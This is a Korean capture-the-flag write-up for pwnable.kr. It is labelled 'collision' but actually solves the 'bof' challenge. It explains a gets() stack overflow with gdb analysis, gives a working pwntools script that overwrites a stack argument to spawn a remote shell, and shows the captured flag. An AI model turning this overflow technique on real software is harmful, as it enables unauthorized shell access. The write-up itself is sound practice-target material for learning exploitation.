

# pwnable.kr : collision
## INDEX
1. 문제 정보
    + 1.1 문제 이름
    + 1.2 문제 설명
    + 1.3 문제 분야
    + 1.4 문제 정답
2. 풀이 방법
    + 2.1 풀이 환경
    + 2.2 풀이 내용
    + 2.3 exploit code
---
## 1. 문제 정보
### 1.1 문제 이름
사이트 링크 : pwnable.kr  
문제 이름 : collision
### 1.2 문제 설명

### 1.3 문제 분야
pwnable
### 1.4 문제 정답
``` shell
seopho@seopho-virtual-machine:~/Desktop/test$ python3 test.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
## 2. 풀이 방법
### 2.1 풀이 환경
OS : Ubuntu 18.04.6  
Architecture : x86-x64
API : pwntools  
### 2.2 풀이 내용
다운로드 링크를 들어가서 bof라는 파일과 bof.c 파일을 다운받는다. 그리고 터미널을 실행하고, nc pwnable.kr 9000 명령어를 입력하면, 다음과 같은 화면이 나온다. 사용자로부터 입력을 받는다는 것을 알 수 있다.
```
seopho@seopho-virtual-machine:~/Desktop/test$ nc pwnable.kr 9000
aaaaaaaaa
overflow me : 
Nah..
```
bof 파일이다. 실행권한이 없기 때문에 실행할 수 없다.  
```
seopho@seopho-virtual-machine:~/Desktop/test$ ls -l
total 12
-rw-rw-r-- 1 seopho seopho 7348  1월  5 21:17 bof
```
그리고 readelf 명령어를 이용해서 어떤 파일인지 확인해보도록 하자. DYN(Shared object file)인 것을 확인할 수 있다.  
즉, 실행파일이 아닌 오프젝트 파일인 것이다. bof파일은 나중에 디스어셈블을 시도해보도록 하자.  
```
seopho@seopho-virtual-machine:~/Desktop/test$ readelf -a bof
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Shared object file)
  .
  .
  .
  .
```
bof.c는 확장자명이 .c 이기 때문에, C 소스코드라는 것을 알 수 있다. 다음은 bof.c의 소스코드이다.  
``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
main()함수를 먼저 보면, func()라는 함수를 호출하고, 인자로 0xdeadbeef라는 값(int 형)을 넣는다.  
func() 함수 정의부분을 살펴보면, char형 overflowme라는 배열을 32byte만큼 선언하고, gets()함수로 overflowme에 사용자로부터 입력을 받는다. 그 다음 코드로 매개변수였던 key값(0xdeadbeef)와 0xcafebabe를 비교하여 같다면, 쉘을 실행하게 해준다.  
gets() 함수는 버퍼 오버플로우를 발생시킬 수 있는 매우 취약한 함수이다.   
func()함수는 다음과 같은 스택구조를 가질 것이다.  
overflowme[32]  
key(0xdeadbeef)  
rbp(4byte)  
ret(4byte)  
그렇기 때문에, gets()함수로 32byte이상을 입력하여, key값을 0xcafebabe로 변경시킨다. 정확히 몇 byte를 입력해야 하는지 확인하기 위해서 bof파일을 디스어셈블 해보자.  
```
seopho@seopho-virtual-machine:~/Desktop/test$ gdb bof
pwndbg> disass func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
```
bof.c 소스코드와 디스어셈블된 코드들을 대조시켜보면, overflowme가 위치하는 메모리 주소는 ebp-0x2c라는 것을 알 수 있었다. 0x0000064f <+35>: call   0x650 <func+36>에 중단점을 설정하고, 메모리를 확인해보자.  
'a'를 10번 입력하고 ebp-0x2c 메모리를 확인해보니, 정상적으로 메모리에 a(16진수로 61)가 들어간 것을 확인할 수 있다.  
```
pwndbg> b *func+35
pwndbg> r
pwndbg> ni
aaaaaaaaaa
pwndbg> x/10gx $ebp-0x2c
0xffffcf4c:	0x6161616161616161	0x00000001f7006161
0xffffcf5c:	0xf7fb43fc5655549d	0x56556ff400000000
0xffffcf6c:	0x01000000c3564c00	0xffffcf98f7e0c7ab
0xffffcf7c:	0xdeadbeef5655569f	0x565556b900000000
0xffffcf8c:	0xf7fb400000000000	0x00000000f7fb4000
```
그리고 0xffffcf7c 부분에 0xdeadbeef가 있는 것을 확인할 수 있다. 0xdeadbeef까지 입력값이 도달하기 위해서는 총52번의 dummy data를 입력해야 한다. 그 후 0xcafebabe를 입력하면, 정상적으로 쉘을 획득할 수 있을 것이다.  
### 2.3 exploit code
``` python
from pwn import*

#r = process("./bof")
r = remote("pwnable.kr",9000)
dummy = "A"*52
payload = "\xbe\xba\xfe\xca"
r.sendline(dummy+payload)

r.interactive()
```